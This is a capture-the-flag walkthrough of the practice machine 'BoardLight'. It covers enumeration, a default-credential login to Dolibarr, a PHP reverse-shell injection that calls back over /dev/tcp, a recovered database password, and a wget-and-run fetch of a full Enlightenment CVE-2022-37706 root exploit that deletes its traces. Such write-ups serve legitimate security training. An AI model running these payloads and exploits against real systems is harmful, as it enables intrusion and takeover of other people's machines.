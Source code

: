 ```yaml
---
description: >-
  Linux | easy | Dolibarr (v17.0.0) CVE-2023-30253 | Mysql | Enlightenment
  CVE-2022-37706
---
```


# BoardLight



## Reconnaissance

```bash
nmap 10.129.11.23 -sV -sC 
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

Lets Check the Http server.&#x20;

We can see the domain name in the front page :&#x20;

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Lets update the Hosts File&#x20;

```bash
echo "10.129.11.23 board.htb" | sudo tee -a /etc/hosts
```

## Enumeration

no usefull directories was found on board.htb with gobuster  so lets try to find some vhost.&#x20;

```bash
ffuf -w /opt/useful/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb:80/ -H 'Host: FUZZ.board.htb' -mc 200 -fw 6243
```

<figure><img src="../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Foothold

so lets add this vhost to our hosts file too .&#x20;

```bash
echo "10.129.11.23 crm.board.htb" | sudo tee -a /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

First things first lets try to enter the default credentials of the version 17.0.0 (admin/admin)

we are in  :&#x20;

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

its time to look for an active CVE on this version.&#x20;

We got one RCE [https://www.swascan.com/security-advisory-dolibarr-17-0-0/](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

So in order to exploit it we have to create a new page and inject a php code. lets try to inject a reverse shell. lets setup our netcat on port 4444 and the inject the following php code in a new page.&#x20;

```php
<?PHP shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444 0>&1'"); ?>
```

```bash
nc -lnvp 4444
```

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

and then when we use the preview button of our new page we trigger the reverse shell :

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

we are now www-data let see if we can find some usefull infos .

by looking on the official website we can see that dolibarr is using mysql so we will look for the conf file of mysql&#x20;

```bash
find /var/www /home -type f -name "conf.php"
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

we did found the password : serverfun2$2023!!

lets use it to our only user in /home directory larissa

we are in and can now grab the user flag !&#x20;

looking for suid who can be exploited for the privilege escalation we can see with&#x20;

```bash
find / -perm -4000 -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

we can find the following exploit  : [https://www.exploit-db.com/exploits/51180](https://www.exploit-db.com/exploits/51180)



```bash
#!/bin/bash
# Exploit CVE-2022-37706 pour Enlightenment v0.25.3
# Auteur: nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Recherche du fichier SUID vulnérable..."
echo "[*] Cela peut prendre quelques secondes..."

# Recherche du fichier SUID vulnérable
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]; then
    echo "[-] Impossible de trouver le fichier SUID vulnérable..."
    echo "[*] Enlightenment doit être installé sur votre système."
    exit 1
fi

echo "[+] Fichier SUID vulnérable trouvé!"
echo "[+] Tentative de création d'un shell root..."
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Bienvenue dans le terrier du lapin :)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Appuyez sur une touche pour nettoyer les preuves..."
echo -e "Veuillez patienter... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Fait; Tout est nettoyé ;)"


```

lets upload it and try it :&#x20;

```bash
wget 10.10.14.20:8000/exploit.sh && chmod 777 exploit.sh && ./exploit.sh
```

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>
